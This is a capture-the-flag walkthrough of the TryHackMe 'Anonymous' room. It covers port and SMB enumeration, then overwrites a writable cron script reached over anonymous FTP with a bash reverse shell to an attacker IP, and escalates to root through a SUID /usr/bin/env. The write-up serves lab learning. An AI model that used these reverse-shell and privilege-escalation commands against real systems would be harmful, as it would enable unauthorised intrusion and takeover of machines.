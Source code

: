 # TryHackMe Anonymous Walkthrough

## 1. Enumeration

### Nmap Scan
```sh

nmap -p- -sV -sC -T4 -o anon 10.10.177.217

```

### Results:

```sh
21/tcp - FTP (vsftpd 3.0.3, Anonymous Login Allowed)

22/tcp - SSH (OpenSSH 7.6p1, Ubuntu)

139/tcp & 445/tcp - SMB (Samba 4.7.6, Ubuntu)
```

### SMB Enumeration

```sh
smbclient -L \\\\10.10.177.217\\ -U anonymous

```

### Shares Found:

- **pics (Contains image files)**

- **print$ (Printer drivers, not useful)**

- **IPC$ (Interprocess communication, not useful)**


### Analyzing Image for Hidden Data

- exiftool puppos.jpeg
- strings puppos.jpeg | less
- steghide info puppos.jpeg
- binwalk -e puppos.jpeg

No sensitive information was found in puppos.jpeg.

### Initial Exploitation (FTP - Writable clean.sh Script)

```sh
ftp 10.10.177.217
anonymous
cd scripts
#change to binary from, ascii by typing :binary
get clean.sh

or mget * to get all

```

### Modify clean.sh to include a reverse shell:

```sh
echo '#!/bin/bash' > clean.sh
echo 'bash -i >& /dev/tcp/10.8.14.7/4444 0>&1' >> clean.sh

Upload modified script:

put clean.sh

Start a listener on Kali:

rlwrap nc -lvnp 4444
```

Wait for the cron job to execute clean.sh.

### Privilege Escalation (/usr/bin/env)

Checking User & Privileges

Also you can run a local `python3 -m http.server 8081` to Download `linpeas.sh`

```sh
whoami
id
sudo -l
find / -perm -4000 -type f 2>/dev/null

SUID Binary Found: /usr/bin/env

Exploiting /usr/bin/env for Root Shell

Shell Escape

env /bin/sh -p

/usr/bin/env /bin/sh -p

If -p does not work, omit it:

/usr/bin/env /bin/sh

Sudo Privilege Escalation

If env can be run as root via sudo:

sudo env /bin/sh -p

Alternative SUID Exploit

If you have write access, create a local SUID copy and execute:

sudo install -m =xs $(which env) .
./env /bin/sh -p

 Root Access & Post-Exploitation

whoami  # root
ls /root  # root.txt found
cat /root/root.txt

```

Summary & Lessons Learned

✅ Writable FTP script (clean.sh) allowed initial access.
✅ Cron job execution triggered the reverse shell.
✅ Privilege escalation achieved via /usr/bin/env SUID.
✅ Root access obtained & flag captured.

